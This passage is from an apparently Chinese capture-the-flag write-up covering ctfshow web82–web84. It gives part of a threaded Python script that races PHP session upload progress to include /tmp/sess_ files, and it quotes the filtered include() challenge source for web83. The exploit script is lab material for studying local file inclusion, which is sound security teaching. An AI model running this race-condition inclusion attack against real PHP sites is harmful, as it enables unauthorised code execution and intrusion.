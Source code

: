 ```python
             cookies={
                 'PHPSESSID':sessionid
             },
             files={
                 'file':('haha.jpg',fileBytes)
             }
             )

def read(session):
    while True:
        response=session.get(url=url+"?file=/tmp/sess_"+sessionid)
        if response.status_code==200:
            print('成功了!!')
            print(response.text)
            time.sleep(10000)#刹个车

if __name__ == '__main__':
    with requests.session() as session:
        for i in range (5):
            #这个地方args一定要加逗号,不然会报错
            threading.Thread(target=write,args=(session,)).start()
        for i in range (5):
            threading.Thread(target=read,args=(session,)).start()

```

![image-20220127143501854](https://gitee.com/blue_satchel/images/raw/master/image-20220127143501854.png)

### web83

和82一样,脚本在平台跑就会返回503,复制代码,自己复现即可

```php
<?php
session_unset();
session_destroy();
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    $file = str_replace(".", "???", $file);

    include($file);
}else{
    highlight_file(__FILE__);
}
```

本题多了一个session的销毁,但是我们使用的session是自行创建的,只要创建的够快,就能在它销毁之前包含进去,所以脚本依然可用

### web84
